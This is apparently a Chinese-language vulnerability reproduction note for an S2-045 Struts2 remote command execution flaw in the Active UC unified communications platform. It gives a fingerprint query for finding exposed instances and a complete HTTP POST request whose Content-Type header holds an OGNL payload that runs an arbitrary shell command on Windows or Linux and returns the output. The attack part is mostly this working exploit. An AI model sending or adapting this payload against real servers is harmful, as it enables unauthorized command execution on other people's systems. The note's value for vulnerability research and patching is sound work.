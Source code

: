# 

# Active UC index.action 远程命令执行漏洞

## 漏洞描述

网动统一通信平台 Active UC index.action 存在S2-045远程命令执行漏洞, 通过漏洞可以执行任意命令

## 漏洞影响

```
Active UC
```

## 网络测绘

```
title="网动统一通信平台(Active UC)"
```

## 漏洞复现

登录页面如下

![](./images/202202101923695.png)



发送如下请求包

```plain
POST /acenter/index.action HTTP/1.1
Cookie: SessionId=96F3F15432E0660E0654B1CE240C4C36
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Charsert: UTF-8
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}; boundary=---------------------------18012721719170
Cache-Control: no-cache
Pragma: no-cache
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
Content-Length: 196

-----------------------------18012721719170
Content-Disposition: form-data; name="pocfile"; filename="text.txt"
Content-Type: text/plain

xxxxxxx
-----------------------------18012721719170
```

![](./images/202202101923511.png)
